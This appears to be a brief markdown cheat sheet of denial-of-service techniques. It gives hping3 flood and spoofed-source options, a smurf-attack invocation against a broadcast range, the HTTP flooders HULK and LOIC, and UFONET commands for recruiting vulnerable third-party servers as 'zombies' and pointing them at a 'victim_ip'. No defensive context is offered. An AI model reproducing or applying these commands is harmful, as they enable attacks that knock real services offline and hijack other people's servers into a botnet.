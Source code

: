 ### hping3
- can also be used for scanning ports.
- useful options: `--flood` `--rand-source` `-p ++80`
- for smurf attack use `-S host_ip broadcast_range_mask`. 
### HTTP flooad attacks
- HULK
- LOIC: for more longer connections but also the rate of them is less than HULK. It actually waits some seconds for established connections and then send new requests.
### DDOS (botnet)
- UFONET
- you can use vulnerable servers as your zombies of net. first download them `--download-zombies`. and then verify them by `-t botnets/zombies.txt`
- `-i victim` to found the largest resource of it
- ```bash ufonet -a victim_ip -r 10 -b victim_ip/resource_path```
  - `-b` means the concurrent connections of each bot
- `./ufonet -s 'proxy.php?url=' --sa` : search all webservers through all search engines that contains specific strings. then you can check dork strings inside `botnets/dorsl.txt`.
